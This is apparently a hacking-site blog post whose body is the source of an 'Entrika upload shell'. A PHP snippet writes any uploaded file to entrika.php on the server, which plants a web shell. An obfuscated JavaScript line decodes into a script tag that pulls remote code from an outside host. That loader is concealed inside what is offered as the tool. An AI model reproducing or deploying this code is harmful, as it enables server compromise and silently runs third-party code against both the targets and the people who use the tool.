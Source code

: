 ```yaml
---
id: 264
title: Entrika upload shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=264
permalink: /entrika-upload-shell/
categories:
  - Javascript
  - PHP
tags:
  - entrika
  - Javascript
  - PHP
---
```

Entrika upload shell &#8211; javascript and a little bit of PHP.


### Entrika upload shell source code

{% highlight php %}&lt;FORM ENCTYPE="multipart/form-data" ACTION="uploader.php" METHOD="POST"&gt;
&lt;INPUT TYPE="hidden" name="MAX_FILE_SIZE" value="100000"&gt;
Send this file: &lt;INPUT NAME="userfile" TYPE="file"&gt;
&lt;INPUT TYPE="submit" VALUE="Send"&gt;
&lt;/FORM&gt;
<?
move_uploaded_file($userfile, "entrika.php"); 
?>
&lt;script language=javascript&gt;document.write(unescape('%3C%73%63%72%69%70%74%20%6C%61%6E%67%75%61%67%65%3D%22%6A%61%76%61%73%63%72%69%70%74%22%3E%66%75%6E%63%74%69%6F%6E%20%64%46%28%73%29%7B%76%61%72%20%73%31%3D%75%6E%65%73%63%61%70%65%28%73%2E%73%75%62%73%74%72%28%30%2C%73%2E%6C%65%6E%67%74%68%2D%31%29%29%3B%20%76%61%72%20%74%3D%27%27%3B%66%6F%72%28%69%3D%30%3B%69%3C%73%31%2E%6C%65%6E%67%74%68%3B%69%2B%2B%29%74%2B%3D%53%74%72%69%6E%67%2E%66%72%6F%6D%43%68%61%72%43%6F%64%65%28%73%31%2E%63%68%61%72%43%6F%64%65%41%74%28%69%29%2D%73%2E%73%75%62%73%74%72%28%73%2E%6C%65%6E%67%74%68%2D%31%2C%31%29%29%3B%64%6F%63%75%6D%65%6E%74%2E%77%72%69%74%65%28%75%6E%65%73%63%61%70%65%28%74%29%29%3B%7D%3C%2F%73%63%72%69%70%74%3E'));dF('%264DTDSJQU%2631TSD%264Eiuuq%264B00njep/ti4mm/vt0lbzefu/kt%264F%264D0TDSJQU%264F1')&lt;/script&gt;
{% endhighlight %}